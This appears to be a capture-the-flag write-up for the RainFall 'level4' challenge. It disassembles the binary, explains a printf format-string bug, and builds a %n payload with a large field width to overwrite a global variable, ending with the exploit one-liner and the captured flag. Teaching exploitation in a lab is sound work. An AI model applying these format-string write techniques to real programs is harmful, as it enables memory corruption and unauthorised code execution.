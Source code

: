 # level4

Nothing better than an `objdump` to get an overview with what we are dealing with.
```
level4@RainFall:~$ objdump -Mintel -d level4

level4:     file format elf32-i386


Disassembly of section .init:
...
08048444 <p>:
 8048444:	55                   	push   ebp
 8048445:	89 e5                	mov    ebp,esp
 8048447:	83 ec 18             	sub    esp,0x18
 804844a:	8b 45 08             	mov    eax,DWORD PTR [ebp+0x8]
 804844d:	89 04 24             	mov    DWORD PTR [esp],eax
 8048450:	e8 eb fe ff ff       	call   8048340 <printf@plt>
 8048455:	c9                   	leave  
 8048456:	c3                   	ret    

08048457 <n>:
 8048457:	55                   	push   ebp
 8048458:	89 e5                	mov    ebp,esp
 804845a:	81 ec 18 02 00 00    	sub    esp,0x218
 8048460:	a1 04 98 04 08       	mov    eax,ds:0x8049804
 8048465:	89 44 24 08          	mov    DWORD PTR [esp+0x8],eax
 8048469:	c7 44 24 04 00 02 00 	mov    DWORD PTR [esp+0x4],0x200
 8048470:	00 
 8048471:	8d 85 f8 fd ff ff    	lea    eax,[ebp-0x208]
 8048477:	89 04 24             	mov    DWORD PTR [esp],eax
 804847a:	e8 d1 fe ff ff       	call   8048350 <fgets@plt>
 804847f:	8d 85 f8 fd ff ff    	lea    eax,[ebp-0x208]
 8048485:	89 04 24             	mov    DWORD PTR [esp],eax
 8048488:	e8 b7 ff ff ff       	call   8048444 <p>
 804848d:	a1 10 98 04 08       	mov    eax,ds:0x8049810
 8048492:	3d 44 55 02 01       	cmp    eax,0x1025544
 8048497:	75 0c                	jne    80484a5 <n+0x4e>
 8048499:	c7 04 24 90 85 04 08 	mov    DWORD PTR [esp],0x8048590
 80484a0:	e8 bb fe ff ff       	call   8048360 <system@plt>
 80484a5:	c9                   	leave  
 80484a6:	c3                   	ret    

080484a7 <main>:
 80484a7:	55                   	push   ebp
 80484a8:	89 e5                	mov    ebp,esp
 80484aa:	83 e4 f0             	and    esp,0xfffffff0
 80484ad:	e8 a5 ff ff ff       	call   8048457 <n>
 80484b2:	c9                   	leave  
 80484b3:	c3                   	ret    
 80484b4:	90                   	nop
 80484b5:	90                   	nop
 80484b6:	90                   	nop
 80484b7:	90                   	nop
 80484b8:	90                   	nop
 80484b9:	90                   	nop
 80484ba:	90                   	nop
 80484bb:	90                   	nop
 80484bc:	90                   	nop
 80484bd:	90                   	nop
 80484be:	90                   	nop
 80484bf:	90                   	nop
 ...
```

This is the same vulnerability as `level3`. However, a few things changes :

- Now the `printf` call is made in another function `p`. This would only add a couple of words into the stack : `p` sole argument, saved `eip`, saved `ebp`, `printf`'s sole argument...
- The value from the address stored at `0x8049810` is now compared to a much bigger immediate value, `0x1025544`.

Because of the buffer size, our format string is limited to **0x200** bytes. Remember that `%n` writes the number of characters processed so far by the format function.
If we use the same `%n` specifier to write at arbitrary address, we would be quickly limited by our buffer being only **512** bytes. However, the **size of the format string is not the only way to influence how may characters the format function will write**.

From `man 3 printf` :

>   Field width : an  optional decimal digit string (with nonzero first digit) specifying a minimum field width.  If the converted value has fewer characters than the field width, it will be padded with spaces on the left (or right, if the left-adjustment flag has been given).  

The following format string `%29371x` is ony **7** bytes but will yield to **29371** bytes being written because of the *field width*.

By dumping the stack, we notice that the buffer starts on the 12th machine words :

```bash
level4@RainFall:~$ python -c 'print("%08x."*12)' | ./level4
b7ff26b0.bffff794.b7fd0ff4.00000000.00000000.bffff758.0804848d.bffff550.00000200.b7fd1ac0.b7ff37d0.78383025.
```

The address we need to set to `0x1025544` is `0x8049810`. In other words, we need `printf` to have processed **16930116** bytes when the function will encounter the `%n` specifier.

The beginning of our buffer will be set to the address `0x8049810`. Then, we advance `printf`'s internal pointer by 10 words, using `%08x` specifiers. So far, printf's counter will be **84**. We need one last format string before getting to the global variable address, and we need to print enough characters :

```
16930116 - 84 = 16930032
```

## Putting It Together

Our final command will be :

```bash
python -c 'print("\x10\x98\x04\x08" + "%08x"*10 + "%016930032x" + "%n")' | ./level4
...
0000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000b7ff37d0
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

Success !